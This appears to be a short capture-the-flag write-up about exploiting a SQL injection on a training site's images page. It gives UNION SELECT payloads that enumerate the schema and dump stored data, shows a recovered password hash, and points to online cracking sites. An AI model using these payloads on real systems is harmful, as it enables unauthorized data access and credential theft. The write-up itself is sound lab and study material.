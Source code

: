 # SQL Injection on Images Page

On the images page, when entering alphabetic characters, we see the MariaDB error message. We can use the following SQL injection to retrieve all table names and column names:

```sql
1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
```

By searching, we find the columns `countersign` and `Commentaire` from the `users` table:

```sql
1 UNION SELECT id, comment FROM list_images
```

We retrieve the following data:

```
1928e8083cf461a51303633093573c46
Surname: Decrypt this password -> then lower all the characters. SHA256 hash it and it's good!
```

To decrypt the password, visit:
- [MD5 Decrypt](https://md5decrypt.net/)
- [dCode SHA256](https://www.dcode.fr/hash-sha256)